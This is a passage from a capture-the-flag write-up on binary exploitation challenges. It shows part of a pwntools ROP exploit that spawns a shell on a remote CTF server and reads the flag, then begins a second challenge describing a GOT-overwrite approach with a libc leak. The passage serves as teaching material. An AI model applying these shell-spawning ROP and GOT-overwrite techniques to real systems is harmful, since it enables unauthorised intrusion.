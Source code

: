 ```py
payload += p64(0x0)
payload += pop_rdx
payload += p64(0x0)
payload += pop_rax
payload += p64(59)
payload += syscall


p.recvline()
p.sendline(payload)

# Sedding `/bin/sh` and then the execve syscall will 
p.sendline("/bin/sh\x00")


p.interactive()
```

Running the exploit:-

```r
0 [07:44:40] vagrant@oracle(oracle) pwn> python3 sad.py 
[+] Opening connection to jh2i.com on port 50002: Done
[*] Switching to interactive mode
$ ls
flag.txt
sad
$ cat flag.txt
flag{radically_statically_roppingly_vulnerable}
$ 
[*] Interrupted
[*] Closed connection to jh2i.com port 50002
```

> Reference: <https://pwning.tech/2020/03/09/zer0pts-hipwn/>

# Bullseye


This challenge was quite good and I liked it, it provided us a write-what-where primitive as a service and since the binary has Partial RELRO which means GOT entry was writeable, such a handy information. It was also leaking the alarm libc address which made it simple for us to get LIBC address by searching it ftro libc database.

```r
[*] '/home/vagrant/CTF/hacktivitycon/pwn/bullseye'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
Exploit:-
